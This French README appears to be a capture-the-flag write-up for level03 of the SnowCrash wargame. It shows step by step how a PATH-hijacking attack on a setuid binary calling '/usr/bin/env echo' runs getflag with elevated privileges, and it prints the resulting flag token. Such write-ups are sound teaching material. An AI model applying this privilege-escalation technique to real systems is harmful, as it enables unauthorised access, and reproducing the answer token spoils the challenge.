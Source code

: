# README - Exploitation de la vulnérabilité du binaire level03

## Étapes suivies pour obtenir le Flag03

### 1. Identification du binaire

Le fichier `level03` est un exécutable avec les permissions **setuid** et **setgid**, ce qui signifie qu'il s'exécute avec les privilèges de l'utilisateur `flag03` :

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

### 2. Analyse du fichier exécutable

En analysant le fichier avec la commande `strings`, on observe un appel à la commande suivante :

```bash
/usr/bin/env echo Exploit me
```

Cela indique que le programme utilise `env` pour trouver et exécuter la commande `echo`. Cela peut être exploitable via un **PATH hijacking**.

### 3. Création d'un faux binaire "echo"

Nous allons créer un fichier `echo` dans un répertoire que nous contrôlons (par exemple `/tmp`) pour exécuter une commande malveillante permettant d'obtenir le flag.

#### a. Création du faux binaire

Créez un fichier `echo` qui exécute la commande `getflag` :

```bash
echo "/bin/sh -c 'getflag'" > /tmp/echo
chmod +x /tmp/echo
```

#### b. Modification du PATH

Modifiez la variable `PATH` pour que le répertoire `/tmp` soit prioritaire :

```bash
export PATH=/tmp:$PATH
```

### 4. Exécution de level03

Lancez l'exécutable `level03` :

```bash
./level03
```

Puisque le binaire `level03` utilise `env` pour appeler `echo`, il trouvera notre faux binaire dans `/tmp` et exécutera la commande `getflag` avec les privilèges de `flag03`.

### 5. Récupération du flag

Si tout fonctionne correctement, vous obtiendrez le flag :

```bash
Check flag.Here is your token : qi0ma5uox3af3bc7s4rdp0kc
```

### 6. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `level04` :

```bash
level03@SnowCrash:~$ su level04
Password: qi0ma5uox3af3bc7s4rdp0kc
level04@SnowCrash:~$ 
```